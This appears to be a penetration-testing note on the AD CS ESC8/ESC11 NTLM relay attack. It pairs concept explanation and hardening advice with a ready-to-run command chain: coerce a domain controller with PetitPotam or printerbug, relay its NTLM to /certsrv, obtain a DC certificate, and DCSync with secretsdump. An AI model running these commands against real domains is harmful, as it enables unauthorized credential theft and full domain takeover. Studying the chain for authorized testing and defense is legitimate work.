

# 04 - AD CS NTLM Relay (ESC8) and Coercion

## 1. Executive Summary

ESC8 is the famous **domain-takeover-from-an-unauth-position** chain: AD CS exposes an HTTP **Web Enrollment** endpoint (`/certsrv`) that accepts **NTLM** auth and (by default) lacks EPA/signing protection. Combine that with a **coercion** primitive (PetitPotam, PrinterBug/SpoolSample, DFSCoerce, etc.) that forces a **Domain Controller** to authenticate to you, relay that DC's NTLM to the web enrollment endpoint, and request a **DC certificate**. With the DC's cert you authenticate as the DC and **DCSync** → full domain compromise. ESC11 is the same idea over the CA's **RPC** interface.

## 2. Concept Overview

**Coercion** = abuse an RPC method (MS-EFSR `EfsRpcOpenFileRaw` = PetitPotam; MS-RPRN `RpcRemoteFindFirstPrinterChangeNotification` = PrinterBug; MS-DFSNM = DFSCoerce; MS-FSRVP = ShadowCoerce) to make a target machine account authenticate to an attacker host. **Relay** = `ntlmrelayx` forwards that NTLM authentication to AD CS Web Enrollment (HTTP, ESC8) or RPC (ESC11), requesting a cert **as the coerced machine** (e.g. `DC01$`). Machine certs with client-auth EKU authenticate via PKINIT/Schannel.

## 3. Enumeration

```bash
certipy find -u user@domain -p pw -dc-ip <dc> -stdout | grep -i "Web Enrollment"   # ESC8 endpoint
# Check coercion surface
coercer scan -u user -p pw -d domain -t <dc-ip>
```

## 4. Exploitation (ESC8 chain)

```bash
# 1) Relay listener targeting Web Enrollment, asking for the DomainController template
certipy relay -target 'http://<ca-host>/certsrv/certfnsh.asp' -template DomainController
#   (or impacket) ntlmrelayx.py -t http://<ca>/certsrv/certfnsh.asp -smb2support --adcs --template DomainController

# 2) Coerce the DC to authenticate to the relay host
PetitPotam.py -u user -p pw -d domain <attacker-ip> <dc-ip>
#   or: printerbug.py domain/user:pw@<dc-ip> <attacker-ip>
#   or: coercer coerce -u user -p pw -d domain -l <attacker-ip> -t <dc-ip>

# 3) Relay yields DC01$ cert (base64/pfx). Authenticate as the DC:
certipy auth -pfx dc01.pfx -dc-ip <dc>        # TGT for DC01$

# 4) DCSync with the DC machine identity
secretsdump.py -k -no-pass domain/'DC01$'@<dc> -just-dc
```
**ESC11** variant: relay to the CA RPC endpoint when HTTP enrollment isn't present (`-target rpc://<ca>` with impacket fork supporting ICertPassage).

> Coercion + relay against production DCs is high-impact: only on explicitly authorized engagements; document the chain rather than running it broadly.

## 5. Mermaid Attack Flow



## 6. Post-Exploitation / Persistence
- DC cert is a long-lived credential; pairs with golden certificate / krbtgt extraction ([[05 - AD CS Certificate Theft Golden Certificate and Persistence]], [[09 - Golden Ticket Attack]] in A-36).

## 7. Defense & Hardening
1. **Disable NTLM** for AD CS Web Enrollment; enable **EPA (Extended Protection for Authentication)** + require HTTPS + channel binding on `/certsrv`.
2. Patch/mitigate coercion (PetitPotam KB, disable Spooler/MS-RPRN on DCs, RPC filters); enforce SMB/LDAP signing.
3. Enforce RPC encryption for ESC11; restrict which templates DCs/machines can auto-enroll; monitor cert requests for machine accounts from odd hosts.

## 8. Chaining Opportunities
- The canonical unauthenticated→DA path; coercion also feeds classic NTLM relay to LDAP for **RBCD** ([[07 - Resource-Based Constrained Delegation Abuse]]).
- Relay fundamentals: **[[11 - NTLM Relay Attack]]** (A-36).

## 9. Related Notes
- **[[01 - AD CS Overview and Enumeration]]**; A-36: **[[11 - NTLM Relay Attack]]**, **[[12 - SMB Relay]]**, **[[15 - DCSync Attack]]**.
- Coercion also enables **[[07 - Resource-Based Constrained Delegation Abuse]]**.

## 10. Tools
`certipy relay`, `ntlmrelayx.py` (--adcs), `PetitPotam.py`, `printerbug.py`, `coercer`, `dfscoerce.py`, `secretsdump.py`.
